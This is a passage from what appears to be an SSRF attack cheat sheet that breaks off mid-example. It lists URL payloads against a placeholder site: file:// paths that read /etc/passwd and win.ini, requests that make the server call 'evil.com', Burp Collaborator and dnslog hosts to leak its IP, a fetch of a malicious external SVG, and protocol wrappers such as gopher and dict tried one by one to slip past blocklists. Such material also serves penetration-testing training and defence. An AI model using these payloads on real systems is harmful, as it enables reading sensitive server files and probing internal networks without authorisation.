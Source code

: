 - The indicator to find out, of course, is not just the three elements mentioned above, there could be “unusual” elements that appear during port scanning because it depends on what technology and what environment the web application uses.

![E5stKXAWEAM5fo2](https://user-images.githubusercontent.com/63053441/133578001-6f61210e-c41a-4246-ac81-8433c206f41c.jpg)

## Local File Read
> In the context of SSRF accessing/reading Local Files can only use the `file:///` protocol, but not all requeststers support the `file:///` protocol. Besides, there may be a hard filter/blacklist that does not allow the use of that protocol, but still, it depends on the behavior of the requeststers.

- To access the file itself, you can use `file:/PathToFile` , `file:///PathToFile` or `file://hostname/PathToFile`. The three access methods are valid URIs for `file:///`.
```php
vulnerablesite.com/file/?url=file:///etc/passwd
vulnerablesite.com/file/?url=file://path/to/file
vulnerablesite.com/file/?url=file://\/\/etc/passwd
vulnerablesite.com/file/?url=file:///C:/Windows/win.ini
```
- If the web application is deployed on Windows Server, to access files using the `file:///` protocol, you can use `file:///<drive_letter/PathToFile`. Example : `file:///d:/hello.txt`


## Sensitive Data Disclosure
- Sometime when server connect to your malicious server you can get server log and find servers IP. Also you can use server as proxy or vpn.
```php
vulnerablesite.com/file/?url=http://evil.com
vulnerablesite.com/file/?url=https://evil.com
vulnerablesite.com/file/?url=http://Burpcollab
```
- you can fetch real ip with http://dnslog.cn/ (of course, dict protocol can also be used)
```php
vulnerablesite.com/file/?url=http://clmppw.dnslog.cn
vulnerablesite.com/file/?url=dict://clmppw.dnslog.cn:80
```

![image](https://www.fatalerrors.org/images/blog/7c7b1e709329e0005f7baf88dcb4ba95.jpg)
- Or fetch a file from external sites which has malicious payload with content type served as html
```php
vulnerablesite.com/file/?url=http://brutelogic.com.br/poc.svg
```
- The first thing to do when we find an SSRF is to test all the wrapper which are working, if the server blocks one wrapper, go and try another. if it’s your lucky day you might find one wrapper not blacklisted.
```php
file:///
dict://
sftp://
ldap://
tftp://
gopher://
```
- DICT:
    - If the server block http request to external sites or whitelist you could simply use `dict:// -` URL schemas to make a request.
    - DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:
        ```php
        vulnerablesite.com/file/?url=dict://evil.com:1337/
